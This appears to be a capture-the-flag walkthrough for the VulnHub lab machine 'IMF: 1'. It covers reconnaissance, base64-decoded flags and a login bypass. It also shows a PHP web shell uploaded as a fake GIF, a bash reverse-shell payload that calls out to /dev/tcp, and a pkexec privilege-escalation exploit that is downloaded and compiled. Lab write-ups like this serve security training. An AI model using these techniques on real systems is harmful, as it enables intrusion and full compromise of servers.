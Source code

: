 
 IMF: 1 Walkthrough

**VulnHub Link:** [IMF: 1](https://www.vulnhub.com/entry/imf-1,162/)
**Difficulty:** Medium
**Release Date:** 30 Oct 2016

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.171

sudo echo "192.168.100.171    imf.local" > /etc/hosts
```

## 2. Enumaration 
```bash
dirb http://imf.local
```

from contact us page , view page source and observe flag1
flag1{YWxsdGhlZmlsZXM=

from the same page source observe js sections and combine them 
<script src="ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ=="</script>

```bash
echo "ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ" | base64 -d
```
flag2{aW1mYWRtaW5pc3RyYXRvcg==} found

```bash
echo "aW1mYWRtaW5pc3RyYXRvcg==" | base64 -d                  
imfadministrator
```

imf.local/imfadministrator found

opening burp suite and changing pass to pass[] and flag3 captured

flag3{Y29udGludWVUT2Ntcw==}

```bash
echo "Y29udGludWVUT2Ntcw==" | base64 -d
```
from webpage whiteboard.jpg

in zxing , whiboard.jpg showed flag4

flag4{dXBsb2Fkcjk0Mi5waHA=} 

```bash
echo 'dXBsb2Fkcjk0Mi5waHA=' | base64 -d
```
and we obtain upload php file 

and found out that we can only upload image files

in burpsuite , we upload shell.php which you can download
```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/IMF%3A1/shell.php
```
we upload this php file and in repeater -->
content-type --> image/gif
filename --> shell.gif

but we have to change content of php file to

<?php
    echo '<pre>';
    echo `id`;
    echo '</pre>';
?>

in response, we obtain something like 43nfi24276f

we write in url --> http://imf.local/imfadministrator/uploads/43nfi24276f.gif

we change it to -->

<?php
    echo '<pre>';
    echo `bash -i >& /dev/tcp/IP/PORT 0>&1`;
    echo '</pre>';
?>

good , www-data shell opened and flag5 captured.

flag5{YWdlbnRzZXJ2aWNlcw==}

## 3. Privilege Escalation

pkexec vulnerability found ---> pkexec version 0.105

```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/IMF%3A1/exploit.c
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/IMF%3A1/evil-so.c
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
```
AND BOOOM  Root flag captured.

flag6{R2gwc3RQcm90MGMwbHM=}
